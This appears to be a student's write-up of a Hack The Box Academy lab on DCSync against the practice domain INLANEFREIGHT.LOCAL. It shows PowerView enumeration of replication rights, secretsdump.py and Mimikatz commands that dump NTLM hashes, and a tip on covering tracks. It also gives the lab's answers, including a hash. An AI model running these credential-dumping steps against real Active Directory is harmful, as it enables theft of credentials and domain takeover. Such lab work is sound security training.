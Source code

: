 # DCSync

So we remember that `adunn` has DCSync privileges in the INLANEFREIGHT.LOCAL domain.

{% hint style="success" %}
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption><p><strong>adunn's Replication Privileges</strong></p></figcaption></figure>

**Using Get-DomainUser to View adunn's Group Membership**

```sh
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

<SNIP>

objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
```

Now that we have the sid of the user we can search specifically for replication rights and check if our user `adunn` possesses these rights

```sh
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

{% hint style="info" %}
DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py
{% endhint %}

**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
ElFelixi0@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user.

**Viewing an Account with Reversible Encryption Password Storage Set**

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

When this option is set on a user account the passwords are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent. Tools such as `secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync. We can enumerate this using the `Get-ADUser` cmdlet:

```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
<SNIP>
```

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

then we wan read the password just like this ->

```shell-session
ElFelixi0@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 
```

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

This will spawn a shell for us, in this new shell we can run mimikatz ->

```powershell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>

```

***

_**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

_**What is this user's cleartext password?**_

after ssh to htb-student on through RDP like said at the beginning at the course ->

```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

_**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>
